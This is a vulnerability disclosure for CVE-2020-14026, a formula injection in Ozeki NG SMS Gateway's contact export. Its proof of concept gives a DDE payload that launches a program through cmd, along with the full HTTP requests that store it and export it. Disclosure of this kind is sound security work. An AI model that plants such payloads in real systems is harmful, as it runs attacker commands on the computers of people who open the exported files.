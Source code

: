 # CVE-2020-14026: Ozeki SMS Gateway Formula Injection

CSV Injection (aka Excel Macro Injection or Formula Injection) exists in the "Export Contacts" feature in Ozeki NG SMS Gateway 4.17.1 through 4.17.6 via a value that is mishandled in a CSV export.
<br/>
By leveraging this vulnerability, if a victim opens the affected spreadsheet files and ignores the security warnings, it will allow an attacker to run commands on the victim computer on behalf of the user who opened the downloaded CSV file. 

### Proof Of Concept:

It was possible to inject the following payload into the fields of "New Contact" form:
```
=cmd|' /C calc.exe!'A1'
```

<img src="New%20Contact%20Form.png"/>

The following request shows an example of the stored payload:
```
POST /default HTTP/1.1
Host: <IP>:9443
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3835.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Content-Length: 294
Cookie: usrckenc=4ef***TRUNCATED***712
 
mode=addcontact&layout=MENUVIEW&MENU=COMPOSEMENU2&MAIN=COMPOSE&OZFORM_CONTACTCOMMENT=%3dcmd|'+/C+calc.exe'!'A1'&OZFORM_CONTACTOTHER=&OZFORM_CONTACTIM=&OZFORM_CONTACTEMAIL=&OZFORM_CONTACTFAX=&OZFORM_CONTACTTEL=&OZFORM_CONTACTMOBILE=&OZFORM_CONTACTNAME=%3dcmd|'+/C+calc.exe'!'A1'&OZFORM_BUTTON=OK
```

After the victim user used the affected functionality, the generated file contained the following data:
```
Name; Mobile; Telephone; Fax; Email; Im; Other; Comment; Group
=cmd|' /C calc.exe'!'A1'; ; ; ; ; ; ; =cmd|' /C calc.exe'!'A1'; 
```

Request to export the address book in CSV Format: 
```
GET /admin_addressbook_all_contacts.csv?layout=EMPTY&MAIN=ADDRESSBOOKMENU&user=admin&selectedgroup=All+contacts&format=csv HTTP/1.1
Host: <IP>:9443
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3835.0 Safari/537.36 
Cookie: usrckenc=4ef***TRUNCATED***712
```

Response:
```
HTTP/1.1 200 OK
Content-Length: 130
Content-Type: text/csv; charset=utf-8
Last-Modified: Tue, 09 Jun 2020 13:28:59 GMT
Server: OzekiNG/4.17.1 Microsoft-HTTPAPI/2.0
Date: Tue, 09 Jun 2020 10:28:59 GMT

Name; Mobile; Telephone; Fax; Email; Im; Other; Comment; Group
=cmd|' /C calc.exe'!'A1'; ; ; ; ; ; ; =cmd|' /C calc.exe'!'A1'; 
```

When the victim opened the file in Microsoft Excel (which is the default application for viewing CSV files in most cases), and ignored the security alerts, the attacker's code was executed in the operating system of the victim user (e.g. the built-in calculator application started):

<img src="CSVI.png"/>
